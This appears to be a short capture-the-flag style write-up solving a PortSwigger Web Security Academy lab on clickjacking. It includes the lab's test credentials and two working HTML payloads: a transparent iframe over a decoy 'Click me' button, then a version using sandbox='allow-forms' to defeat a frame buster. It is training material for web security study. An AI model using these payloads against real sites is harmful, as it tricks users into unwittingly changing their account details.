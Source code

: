 # Clickjacking with a frame buster script

## This lab is protected by a frame buster which prevents the website from being framed. Can you get around the frame buster and conduct a [clickjacking attack](https://portswigger.net/web-security/clickjacking) that changes the users email address?

## To solve the lab, craft some HTML that frames the account page and fools the user into changing their email address by clicking on "Click me". The lab is solved when the email address is changed.

## You can log in to your own account using the following credentials: `wiener:peter`

---

### step 1

login
apply the payload

```html
<style>
  iframe {
    position: relative;
    width: 700px;
    height: 700px;
    opacity: 0.1;
    z-index: 2;
  }
  div {
    position: absolute;
    top: 449px;
    left: 68px;
    z-index: 1;
  }
</style>
<div>Click me</div>
<iframe
  src="https://0ac3007a04d3fbab817f2a57006e005b.web-security-academy.net/my-account?email=abc@gmail.com"
></iframe>
```

you will get
`This page cannot be framed`

so use `sandbox="allow-forms"` in iframe

```html
<style>
  iframe {
    position: relative;
    width: 700px;
    height: 700px;
    opacity: 0.0001;
    z-index: 2;
  }
  div {
    position: absolute;
    top: 449px;
    left: 68px;
    z-index: 1;
  }
</style>
<div>Click me</div>
<iframe
  src="https://0a42000a0300fd468040958c003b0034.web-security-academy.net/my-account?email=abc@gmail.com"
  sandbox="allow-forms"
></iframe>
```
